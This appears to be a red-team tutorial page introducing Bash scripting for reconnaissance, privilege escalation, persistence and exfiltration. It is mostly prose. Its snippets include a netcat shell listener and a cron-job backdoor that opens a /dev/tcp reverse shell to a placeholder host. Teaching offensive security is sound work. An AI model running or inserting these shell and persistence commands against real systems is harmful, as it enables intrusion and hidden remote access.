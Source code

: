 # 📘 1. **Introduction to Bash/Shell Scripting**

## 🐚 **What is Bash/Shell Scripting?**
**Bash (Bourne Again SHell)** is a **command-line shell** used to interact with the system’s kernel (core of the operating system). It allows users to run commands interactively or write **scripts** (files containing sequences of commands) to automate processes.

- **Shell**: Interface that allows you to interact with your computer's OS through text commands.
- **Scripting**: Writing commands in a sequence within a file to execute automatically.

Bash scripting is particularly useful for:
- **Automation**: Reduces repetitive tasks, such as scanning, brute-forcing, or automating CTF challenges.
- **Rapid Prototyping**: Test out offensive strategies or exploit chains with scripts.
- **System Interaction**: Direct access to system tools, files, and processes.

## ⚙️ **Why Learn Bash?**
1. **Efficiency in Red Teaming**: Automation is key in red teaming. You can write scripts for:
   - Reconnaissance
   - Privilege escalation
   - Exploitation
   - Post-exploitation (data exfiltration, backdoors, etc.)
   
2. **Tool Integration**: Combine various **pentesting tools** (like `nmap`, `nikto`, `hydra`, etc.) into one cohesive script. This enables you to **execute complex tasks** with a single command.
   
3. **Cost-Effective**: No need to rely on expensive third-party tools; most Linux-based tools can be scripted using Bash.

4. **Job Flexibility**: Whether you're in **DevOps**, **System Admin**, **Red Team**, or **SOC**, Bash scripting is vital for automation, tool orchestration, and system manipulation.

## 🔐 **Why Bash Matters in Cybersecurity / Red Teaming**

Bash is **indispensable** for **red teamers** because:
- It provides a low-level, flexible way to interact with systems without needing a GUI.
- It's powerful for writing **payloads**, automating **attacks**, and conducting **post-exploitation activities**.
  
Examples:
- **Reconnaissance**: Automating network scans, brute-forcing, and data gathering from target systems.
- **Privilege Escalation**: Enumerating potential vulnerabilities, misconfigurations, and privilege escalation vectors in a network.
- **Payload Delivery**: Writing reverse shells, web shells, or custom exploits in Bash.
- **Exfiltration**: Automatically reading files, compressing data, and transferring them to an external server.
- **Evasion**: Using Bash scripting to **obfuscate** commands or interact with a system in a way that evades basic security defenses.

#### 📌 **Use Cases in Real-World Red Team Operations**

1. **Reconnaissance**: 
   - Automate tool usage such as `nmap`, `whois`, `dnsrecon`, etc., to quickly map out a target’s attack surface.
   - Write Bash scripts to pull system info (OS, ports, services) from compromised machines for enumeration.

2. **Exploitation**:
   - Use **reverse shells** in Bash to create backdoors.
   - Automate exploitation tools like Metasploit or custom exploits with **Bash one-liners**.

3. **Privilege Escalation**:
   - Write scripts to enumerate potential vectors (e.g., setuid binaries, world-writeable files, misconfigurations).
   - Use Bash to escalate privileges or perform lateral movement within the network.

4. **Persistence**:
   - Automate the creation of **backdoors** using simple Bash scripts that will persist across reboots or logins.
   
5. **Data Exfiltration**:
   - Create scripts to exfiltrate sensitive data (passwords, config files, etc.) from compromised machines back to your command and control server.
   - Use compression (`tar`, `gzip`) and transfer (`scp`, `netcat`) techniques to automate the process.

6. **Defender’s Perspective**:
   - Understanding how defenders use Bash to track actions or identify intruders is critical. Learn to script in ways that **bypass** or **disable** defenses.

## 🧰 **Common Bash Use Cases and Commands for Red Teaming**

Here are some Bash command examples and how they help in red teaming:

- **`nc` (Netcat)**: Create a reverse shell.
  ```bash
  nc -lvnp 4444 -e /bin/bash
  ```
  
- **Enumerating Sudo Permissions**:
  ```bash
  sudo -l
  ```
  
- **Finding Setuid Binaries**:
  ```bash
  find / -type f -perm /4000
  ```
  
- **Checking for World Writable Files**:
  ```bash
  find / -type f -perm /o+w
  ```
  
- **Stealthy Persistence (Cron jobs)**:
  ```bash
  echo "@reboot /bin/bash -i > /dev/tcp/your_ip/port 0<&1 2>&1" > /etc/cron.d/backdoor
  ```

## 🎯 **When Do You Use Bash in Red Teaming?**

- **During Recon**: Automating common tools and commands to gather information from public-facing services.
- **In Exploit Development**: Writing reverse shells, payloads, and backdoors in Bash for stealth and speed.
- **After Initial Compromise**: Post-exploitation activities like persistence, lateral movement, and exfiltration are often controlled via Bash scripts.
- **Bypassing Security**: Bypassing firewalls, IDS/IPS systems, or antivirus detection via obfuscated Bash scripts.

---
